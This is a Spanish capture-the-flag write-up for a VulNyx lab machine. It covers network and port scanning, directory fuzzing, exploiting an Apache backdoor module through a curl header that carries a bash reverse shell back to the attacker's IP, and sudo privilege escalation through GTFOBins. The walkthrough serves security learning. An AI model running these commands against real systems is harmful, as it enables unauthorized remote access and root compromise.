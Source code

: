 # Writeup

## Conocer la red

Lo primero de todos es encontrar equipos dentro de mi red.

`sudo arp-scan -I eth0 --localnet`

![captura-red](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e6e95007-1bbb-4cf5-b593-0e2619a681a4)

Como ya sabemos, las máscaras que empiezan por 00:0c son de VMware, por lo tanto la máquina atacante es la **192.168.166.104**.

## Conectividad con la máquina atacante

Comprobamos que tenemos conectividad.

`ping -c1 192.168.166.104`

![captura-ping](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/360454c2-5bf1-402f-8d25-9ea9d39d7724)

Vemos que el **ttl** es **64** por lo que significa que es una máquina Linux.

## Escaneo de puertos

Ahora vamos a hacer un escáneo para ver los puertos que están abiertos

`sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 192.168.166.104 -oN allPorts`

![captura-escaneo](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/1aa0275b-bcac-4e0b-81fa-c201fe06a703)

Podemos ver que utiliza para el puerto 80 Apache. Lo confirmamos buscando en el navegador la IP atacante.

![captura-apache](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/088be370-e75a-4ca2-9b03-bcd254a291e1)

## Fuzzing

Lo que se me ocurre ahora mismo es hacer Fuzzing para encontrar directorios o subdirectorios. Se pueden utilizar **gobuster**, **wfuzz**. En mi caso voy a utilizar gobuster.

`sudo gobuster dir -w /usr/share/wordlist/Seclist/Discovery/Web-Content/directory-list-2.3-medium.txt -x .txt,.php,.py,.html -u "http://192.168.166.104/"`

![captura-gobuster](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/65937e31-497c-4af9-a131-10c4064e698d)

Encontramos un **info.php**. Lo buscamos en el navegador.

![captura-backdoor](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/e5c527bc-2dd2-41fc-b57b-59b411396243)

Vemos que hay un módulo bastante sospechoso llamado **backdoor** o **puerta trasera**.

![captura-mod](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/ad38e771-b424-4636-a61b-b5c87c6a38c0)

Podemos ejecutar comandos de manera remota **(RCE)**.

![captura-whoami](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/b69bb677-5323-4a08-9ee0-4fb6bdbbce9a)

Vemos que si podemos ejecutar. Por lo tanto lo que se me ocurre en estos momentos es hacer una **reverse shell**.

`curl -sX GET -H "Backdoor: bash -c 'bash -i >& /dev/tcp/192.168.166.103/443 0>&1'" "http://192.168.166.104"`

Pero antes nos ponemos en escucha.

`nc -nlvp 443`

Y ahora sí le damos.

![captura-nc](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/76bd4bc4-2335-4419-9430-d0774dd7eb93)

Volvemos la reverse shell útil y cómoda.

`script /dev/null -c bash`

`CTRL + Z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export BASH=bash`

Podemos ejecutar **service** como **laurent**. Buscamos el binario en **[GTfobins](https://GTfobins.github.io)**.

Y seguimos los pasos

![captura-gtfobins](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/51c1c621-3cb6-45fd-8c6d-e6ee8fa30fcc)

Una vez hechos los pasos, buscamos la flag.

![captura-laurent](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/cd77b848-8226-42b0-9924-d48988f97391)

Ahora vamos a por la de root.

![captura-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/f93535f8-35ba-461d-9d83-32fb0da1b00d)

Vemos que podemos ejecutar como root el comando **joe**.

Volvemos a buscar en **[GTfobins](https://GTfobins.github.io)**.

![captura-gtfobins-joe](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/908cf6cc-fea5-4be7-b072-3784300e42a7)

Seguimos los pasos.

![captura-flag-root](https://github.com/Alv-fh/Vulnnyx_machines_writeups/assets/109484163/aa5d388d-f987-4ec5-bb2e-2face328c9bb)

Encontramos las dos flag.
